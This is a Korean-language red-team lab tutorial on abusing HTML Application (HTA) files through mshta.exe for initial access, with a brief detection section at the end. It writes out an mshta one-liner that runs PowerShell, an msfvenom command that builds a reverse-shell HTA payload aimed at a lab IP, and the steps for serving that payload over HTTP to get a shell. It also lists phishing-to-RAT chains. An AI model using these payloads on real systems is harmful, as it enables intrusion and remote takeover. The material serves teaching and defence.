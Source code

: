 # HTA

## HTA란?

HTA (HTML Application)는 마이크로소프트가 개발한 웹 애플리케이션 프로그래밍 기술이다.HTA 확장자 파일은 Mshta.exe 윈도우 바이너리로 실행되며 네트워크 프록시 인식 방식으로 HTML에 포함된 Windows 스크립트 호스트 코드(VBScript 및 JScript)를 실행할 수 있기 때문에 MS로 서명된 유틸리티를 통해 임의 스크립트 코드 실행을 할 수 있어 공격하기 매력적인(?!?) 수단이다.

아래 트윗은 한 레드팀원이 몇일전에 올린 HTA를 관한 초기 침투가 아직도 많이 쓰이고 있다는것을 알수있다.

![](<../../obsidian\_resources/Pasted image 20230501172222.png>)

### 보안적인 측면

일단 HTA는 Java applet 이나 액티브X 컨트롤과 같은 기존의 웹 애플리케이션 기술에 비해 보안성과 사용자 경험 측면에서 우수한 성능을 제공할 수 있지만 또한 양날의 검으로 기존 웹 앱과는 다르게 로컬 파일 시스템이나 레지스트리 같은 거에 직접 액세스할 수도 있기 때문에더 많은 권한을 가질 수 있기 때문에 악의적인 목적으로도 충분히 쓰일 수 있다.

아래 실습 예제는 굉장히 간단히 예제임으로 "왜 제가 만든 악성 hta 파일이 다운받은 즉시 사라지나요?"와 같은 질문은 하지 말길 바란다. 기본적으로 윈도우 디펜더를 다 끄고 진행하고 있기 때문에 아래 실습은 방어 우회를 거의 일체 생각하지 않았다라는 점을 이해해주길 바란다.

Mitre Attack에서도 Mshta 실행을 하나의 테크닉으로 설명하고 있으며 굉장히 많은 APT그룹도 사용하고 있는 것을 알 수 있다.

{% embed url="https://attack.mitre.org/techniques/T1218/005/" %}

일단 시작하기 앞서, 아래와 같이 mshta -> VBScript-> powershell.exe를 통해, "Hello GROOT!" 아웃풋되는지 확인해보자.

```powershell
mshta.exe "about:<hta:application><script language="VBScript">Close(Execute("CreateObject(""Wscript.Shell"").Run%20""powershell.exe%20-nop%20-Command%20Write-Host%20Hello,%20GROOT!;Start-Sleep%20-Seconds%205"""))</script>'"
```

![](<../../obsidian\_resources/Pasted image 20230501210226.png>)

### 실습

기본적으로 HTA를 사용한 악성 코드 실행 시나리오는 여러가지가 있을 수 있다. 수 많은 조합들이 있지만, 자주 사용 되는 조합은 다음과 같다:

* LNK -> CMD -> Powershell -> RAT
* ZIP -> Password protected PDF + "password.lnk" -> RAT
* DOCx -> LNK -> remote HTA -> Powershell -> RAT
* 피싱 이메일 -> LOTS를 통한 mediafire/dropbx/github 다운 -> ZIP 파일 -> HTA -> RAT

### 기본 HTA 스크립트 예제

아래 HTA 스크립트는 Windows에서 calc.exe를 실행한다.

**grootcalc.hta**

```
<html>
<body>
<script>
        var c= 'calc.exe'
        new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>
```

HTML Application을 통해 계산기가 실행되는 것을 알 수 있다.&#x20;

### Metasploit 예제

가장 간단하게 msfvenom을 통해 HTA Payload를 만들어 보자. shell\_reverse\_tcp HTA 페이로드를 만들어 준다.

* LHOST: 칼리 로컬 호스트 로컬 IP
* LPORT: Listener 포트

```
┌──(kali㉿kali)-[~/redteam/HTA/unicorn]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.137.131 LPORT=443 -f hta-psh -o groot.hta
```

공격자는 타겟이 악성 HTA를 다운받을 수 있게 Python HTTP Server를 포트 8080에 만들어 준다.

<figure><img src="../../obsidian_resources/Pasted image 20230501175738.png" alt=""><figcaption></figcaption></figure>

브라우저에서 http://192.168.137\[.]131:8080/groot.hta 를 방문하여 파일을 다운받고 실행하면 타겟박스 (윈도우) 쉘을 얻을 수 있다.

![](<../../obsidian\_resources/Pasted image 20230501175551.png>)

### 대응 방안

* CMD에서 실행되는 난독화된 스크립트를 실행하는 mshta.exe는 이미 수상하기 때문에 아마 EDR 차원에서 이미 감지를 할수 있다. 또한 mshta.exe 실행 전후 실행도는 Process들을 살펴봐 .hta 파일의 출처와 목적을 확인하는 것이 중요하다.

### 레퍼런스

{% embed url="https://dmcxblue.gitbook.io/red-team-notes-2-0/red-team-techniques/initial-access/t1566-phishing/phishing-spearphishing-link/links-hta-files" %}

{% embed url="https://hatching.io/blog/lnk-hta-polyglot/" %}
